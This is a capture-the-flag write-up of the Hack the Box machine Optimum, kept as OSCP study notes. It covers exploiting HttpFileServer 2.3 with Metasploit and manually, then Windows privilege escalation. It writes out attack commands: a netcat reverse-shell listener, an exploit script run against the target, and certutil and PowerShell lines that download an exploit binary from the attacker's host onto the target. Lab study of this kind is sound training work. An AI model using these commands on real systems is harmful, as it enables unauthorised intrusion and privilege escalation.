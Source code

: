 ```yaml
---
layout: post
title: "Hack the Box — Optimum"
date: 2023-01-23
draft: false
tags: [""]
categories: ["Hack The Box", "TJ Null's OSCP List"]
summary: "One of the first HTB boxes I solved a few months ago from the TJ Null List in preparation for the PNPT and OSCP."
---
```


# Hack the Box — Optimum

With and Without Metasploit

Originally, I solved this box as part of the [TCM Security](https://tcm-sec.com/) Practical Ethical Hacking course with Metasploit but Heath, the instructor, did mention going back to solve it manually would be good practice. Whelp since the OSCP only lets one Metasploit use, I figure let me get into the practice of doing boxes without it. This box is also on the [TJ Null List](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview).

![](https://miro.medium.com/v2/resize:fit:1400/1*Tkm7wn36_eVugxDozoN1cg.png)

# Recon

nmap -sC -sV -O -oA nmap/initial 10.10.10.8

![](https://miro.medium.com/v2/resize:fit:1400/1*KhC9fJPRVEJN-Fyg9QS08A.png)

nmap -sC -sV -O -p- -oA nmap/full 10.10.10.8

![](https://miro.medium.com/v2/resize:fit:1400/1*ryDdQU1aYi1NPlOQDKcRUA.png)

nmap -sU -O -p- -oA nmap/udp 10.10.10.8

![](https://miro.medium.com/v2/resize:fit:1400/1*rU0BhbSYVpzuMIVqzA2WEw.png)

# Enum

![](https://miro.medium.com/v2/resize:fit:1400/1*mJeiinFBAp6EAMydlbvEbQ.png)

Google it…

![](https://miro.medium.com/v2/resize:fit:1400/1*pm9WYsBS-OeVTy53zOQ_xQ.png)

Exploitable! We find [https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)

# Exploitation With Metasploit

## Find exploit for HttpFileServer 2.3

![](https://miro.medium.com/v2/resize:fit:1400/0*M_yQDS6akQYVmyBf.png)

## Configure the Options

![](https://miro.medium.com/v2/resize:fit:1400/0*HUvn0ZHx18OSxomT.png)

## There’s a Difference in Architecture between the box and our meterpreter session

## But that doesn’t seem to affect our exploitation

Possible because Metasploit is auto-detecting the target

![](https://miro.medium.com/v2/resize:fit:1400/0*w0-5MiZxyZtBzZGJ.png)

## Privilege Escalation

I background the first meterpreter session and search for suggested post-breach exploits  
The only option that needs to be configured here is the session  
If sessions aren’t know you can just run `show sessions`

![](https://miro.medium.com/v2/resize:fit:1400/0*NshUqREfn1rwDHEm.png)

Once the suggester runs, I find what I’m really looking for which is a way to privilege escalate from the “Kostas” user to the system authority/root

![](https://miro.medium.com/v2/resize:fit:1400/0*abn58EusSDBr5OEk.png)

We get system authority from the exploit

![](https://miro.medium.com/v2/resize:fit:1400/0*znOGliVxGk4GRf3q.png)

# Manual Exploitation

In order to use the exploit we found from google searching we must find netcat and copy it into our working folder so we can serve it

locate nc.exe  
cp /usr/share/windows-binaries/nc.exe ~/HTB/Optimum-10.10.10.8

Start the HTTP server

python -m SimpleHTTPServer 80 

Start a listener

nc -nlvp 5555

Download the exploit we found: [https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)

![](https://miro.medium.com/v2/resize:fit:1400/1*E3d3LhYc3LQPLzaheSQUZw.png)

“searchsploit -m” makes it easy to download exploits from exploit-db

Edit the exploit with our details

![](https://miro.medium.com/v2/resize:fit:1400/1*PvcDP6QPglaxESw9qCoZTA.png)

Run the exploit

python 39161.py 10.10.10.8 80

Acquire shell on listening port

![](https://miro.medium.com/v2/resize:fit:1400/1*15cytkwhgtiWsfETHjWyNQ.png)

Get user flag

![](https://miro.medium.com/v2/resize:fit:1368/1*Mi0ocPrNJc9EgAhWdglIxg.png)

## Priv Esc

I used [https://github.com/Glyph-Research/Windows-Exploit-Suggester.git](https://github.com/Glyph-Research/Windows-Exploit-Suggester.git) which as its name implies suggests exploits based on system info

Initially, I ran this based on the readme instructions:

pip install xlrd --upgrade

![](https://miro.medium.com/v2/resize:fit:1400/1*YxIWL047fDQdnLZglUqiaw.png)

To install the dependencies and update them BUT it actually broke the exploit.

I kept getting this error:

![](https://miro.medium.com/v2/resize:fit:1400/1*a8j3uCY-CShUQRSNj3olWA.png)

The fix was to downgrade to the older version I had before:

pip install xlrd==1.2.0 

![](https://miro.medium.com/v2/resize:fit:1400/1*nNmu9aIpUqsnS5Ja5wbWEw.png)

Now that the dependency issue has been fixed let me go back and explain the preparation for the above command.

In order to prepare the database and system info I run ``systeminfo`` command using the foothold of the Kostas user

![](https://miro.medium.com/v2/resize:fit:1400/1*RzePLwMD2DUJunLvXkCpqQ.png)

Copy the output of ``systeminfo`` into sysinfo.txt

Then I run the following to create that database .xls file

./windows-exploit-suggester.py --update

![](https://miro.medium.com/v2/resize:fit:1400/1*3nZNLgeBhwqRpYiY3mi4nw.png)

Once those two pieces are created I can run the suggester:

![](https://miro.medium.com/v2/resize:fit:1400/1*nNmu9aIpUqsnS5Ja5wbWEw.png)

From here all I have to do is download the executable that has already been compiled and since I still have my python server up and running I put this .exe in the same folder so I can grab it with Kostas

wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe

![](https://miro.medium.com/v2/resize:fit:1400/1*rRD8xyIk8kobDflW8kSkEA.png)

Go back to my Kostas shell and use certutil

certutil.exe -urlcache -f http://10.10.14.37:80/41020.exe toasted.exe

This can also be accomplished with PowerShell

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.37:80/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"

![](https://miro.medium.com/v2/resize:fit:1400/1*iU9FuVbLge_dE6PXN26fkQ.png)

Once the exploit is run and the privileges have been escalated then getting the root flag is simple

![](https://miro.medium.com/v2/resize:fit:1400/1*ehrPXjlZQ4Q2vlUNtGPKfg.png)

# Issues

Why was any of this possible? Both the foothold and privilege escalation were do to old, unpatched software. This box is old but has evergreen relevance because we are still facing issues in 2023 due to unpatched software and system components.
